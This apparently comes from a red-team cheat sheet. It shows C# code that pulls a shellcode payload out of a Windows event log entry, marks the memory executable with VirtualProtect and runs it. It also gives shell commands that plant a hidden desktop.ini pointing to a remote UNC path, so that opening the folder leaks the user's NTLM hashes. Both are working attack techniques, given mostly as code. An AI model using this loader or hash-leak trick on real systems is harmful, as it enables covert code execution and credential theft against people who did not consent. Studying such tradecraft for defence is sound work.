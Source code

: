 ```
    private delegate IntPtr ptrShellCode();
    static void Main(string[] args)
    {
        // Create a new EventLog object.
        EventLog theEventLog1 = new EventLog();

        theEventLog1.Log = "Key Management Service";

        // Obtain the Log Entries of the Event Log
        EventLogEntryCollection myEventLogEntryCollection = theEventLog1.Entries;

        byte[] data_array = myEventLogEntryCollection[0].Data;

        Console.WriteLine("*** Found Payload in " + theEventLog1.Log + " ***");
        Console.WriteLine("");
        Console.WriteLine("*** Injecting Payload ***");

        // inject the payload
        GCHandle SCHandle = GCHandle.Alloc(data_array, GCHandleType.Pinned);
        IntPtr SCPointer = SCHandle.AddrOfPinnedObject();
        uint flOldProtect;

        if (VirtualProtect(SCPointer, (UIntPtr)data_array.Length, 0x40, out flOldProtect))
        {
            ptrShellCode sc = (ptrShellCode)Marshal.GetDelegateForFunctionPointer(SCPointer, typeof(ptrShellCode));
            sc();
        }
    }
}
}
```

@BHIS
Source: https://github.com/roobixx/EventLogForRedTeams

## NTLM Leak via Desktop.ini

The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

```sh
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```


[VICTIM]: PS C:\Users\Victim\Documents>